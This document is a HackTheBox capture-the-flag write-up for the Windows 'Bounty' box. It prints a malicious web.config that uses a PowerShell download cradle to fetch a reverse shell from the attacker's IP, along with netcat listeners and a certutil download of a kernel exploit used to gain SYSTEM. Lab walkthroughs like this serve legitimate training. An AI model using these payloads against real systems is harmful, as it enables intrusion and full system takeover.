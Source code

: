 # HackTheBox
------------------------------------
### IP: 10.129.151.131
### Name: Easy
### Difficulty: Easy
--------------------------------------------

Bounty.png

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Bounty]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.129.151.131
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-29 06:53 CDT
Nmap scan report for 10.129.151.131
Host is up (0.071s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```

Looks like only port 80 HTTP is open for TCP. That's a bit odd because usually Windows boxes have a lot more services listening than that.

Looking at the webpage we find a jpeg of a wizard:

bounty_merlin.png

Starting some directory scanning we find a `/transfer.aspx` endpoint, as well as `/uploadedfiles`

Looking at `/transfer.aspx` we find a simple file upload:

bounty_transfer_page.png

Trying to access `/uploadedfiles` however we get access denied.

bounty_denied.png

Trying to upload a file called test.txt, we get this error: `Invalid File. Please try again`

Capturing the request in Burp and manually trying a few different file types, I fund we can successfully load a .doc file:

bounty_burp1.png

This also works for docx files too.

However I'm still unable to access these files from `/uploadedfiles` as we get a message saying file not found.

My first instinct is to use something like https://github.com/Greenwolf/ntlm_theft to create a malicious file to steal NTLM hashes as a client side attack, but I'm not sure there's any service on the other end that would 'open' the file. But more importantly, even if I did capture a hash, what would I do with it? So far in my enumeration there is nowhere to login and no other services running. 

Going back to Burp I notice we can also upload .config files. 

Lets try loading a malicious web.config file that will download and execute a powershell revers shell.

### Exploitation

I can grab the malicious web.config file from: https://github.com/d4t4s3c/OffensiveReverseShellCheatSheet/blob/master/web.config and we can adjust the powershell download cradle to our local IP:

```
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.114/Invoke-PowerShellTcp.ps1')")
%>
```

Then we'll transfer to our working directory a copy of Invoke-PowerShellTcp.ps1, and edit the last line :

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.114 -Port 443
```

Lets set up a python http.server and our listener and load the web.config file:

bounty_good.png

We can then call the script by navigating to: http://10.129.151.131/uploadedfiles/web.config

We can confirm that Invoke-PowerShellTcp.ps1 has been downloaded, and we catch a shell back as user merlin:

```
┌──(ryan㉿kali)-[~/HTB/Bounty]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.151.131 - - [29/Jun/2024 08:24:35] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```
┌──(ryan㉿kali)-[~/HTB/Bounty]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.151.131] 49160

Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>PS C:\windows\system32\inetsrv> whoami
bounty\merlin
PS C:\windows\system32\inetsrv> hostname
bounty
```

We can then find the user flag using `dir -Force`:

bounty_user_flag.png

### Privilege Escalation

Running `whoami -all` we see that SeImpersonatePrivileges is set.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Normally finding this means an easy path to system via a Potato exploit or via PrintSpoofer, but for some reason I was never able to get those to work here, and I'm not entirely sure why.

Because I know this is an old box, I decided to run `systeminfo` to see what kind of patching is in place:

```
PS C:\users\merlin\desktop> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          6/29/2024, 2:49:50 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,401 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,170 MB
Virtual Memory: In Use:    925 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.151.131
                                 [02]: fe80::c0af:a074:2e2e:5b82
                                 [03]: dead:beef::c0af:a074:2e2e:5b82
```
We can see here we're on a Windows Server 2008 R2 and that no hotfixes have been made.

This is likely vulnerable to a kernel exploit based on the age of the box and the fact its not been patched. 

Lets use: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012/Chimichurri

We can set up a netcat listener and python server, transfer the exploit, and run it:

```
PS C:\users\merlin\desktop> certutil -urlcache -split -f "http://10.10.14.114/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
PS C:\users\merlin\desktop> ./Chimichurri.exe 10.10.14.114 445
```

This catches us a shell back as system:

```
┌──(ryan㉿kali)-[~/HTB/Bounty]
└─$ nc -lnvp 445            
listening on [any] 445 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.151.131] 49201
whoamMicrosoft Windows [Version 6.1.7600]i
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\users\merlin\desktop>
whoami
nt authority\system
```

And we can now grab the root.txt flag:

bounty_root_flag.png

Thanks for following along!

-Ryan

--------------------------------------------------